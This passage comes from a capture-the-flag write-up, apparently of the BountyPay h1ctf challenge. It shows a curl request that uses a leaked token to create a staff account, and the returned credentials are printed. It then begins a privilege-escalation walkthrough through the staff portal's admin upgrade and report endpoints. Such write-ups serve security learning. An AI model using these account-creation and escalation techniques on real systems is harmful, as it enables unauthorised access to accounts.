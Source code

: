 Using parameter names from previously returned data and Sandra staff_id: 

```
[ zoczus@ropchain:~ ]> curl https://api.bountypay.h1ctf.com/api/staff -H "X-Token: 8e9998ee3137ca9ade8f372739f062c1" -X POST -d "name=XXX&staff_id=STF:8FJ3KFISL3&password=test"
{"description":"Staff Member Account Created","username":"sandra.allison","password":"s%3D8qB8zEpMnc*xsz7Yp5"}
```

## Privilege Escalation in Staff Portal 

After collecting Sandra's credentials we can try login to [Staff](https://staff.bountypay.h1ctf.com/?template=home) portal on `staff.bountypay.h1ctf.com`.

 {F861643}

To understand vulnerability here - first let's review [/js/website.js](https://staff.bountypay.h1ctf.com/js/website.js) file:

```javascript
$(".upgradeToAdmin").click(function() {
    let t = $('input[name="username"]').val();
    $.get("/admin/upgrade?username=" + t, function() {
        alert("User Upgraded to Admin")
    })
}), $(".tab").click(function() {
    return $(".tab").removeClass("active"), $(this).addClass("active"), $("div.content").addClass("hidden"), $("div.content-" + $(this).attr("data-target")).removeClass("hidden"), !1
}), $(".sendReport").click(function() {
    $.get("/admin/report?url=" + url, function() {
        alert("Report sent to admin team")
    }), $("#myModal").modal("hide")
}), document.location.hash.length > 0 && ("#tab1" === document.location.hash && $(".tab1").trigger("click"), "#tab2" === document.location.hash && $(".tab2").trigger("click"), "#tab3" === document.location.hash && $(".tab3").trigger("click"), "#tab4" === document.location.hash && $(".tab4").trigger("click"));
```

Most important things to note here:
- There's function that calls `/admin/upgrade?username=....` and gives user administrator privileges
- There's endpoint `/admin/report?url=...` that reports to admin that something's wrong with provided URL. 
- At the end there are couple of `location.hash` checks and `click` event triggers based on css selector (tab1/tab2/tab3/tab4)

All of above are important to escalate privileges. Let's simply try direct calling `/admin/upgrade?username=sandra.allison` endpoint:

```json
["Only admins can perform this"]
```

Sadly - it didn't worked. 

On bottom of website there's also a hyperlink called **Report This Page** that shows modal:
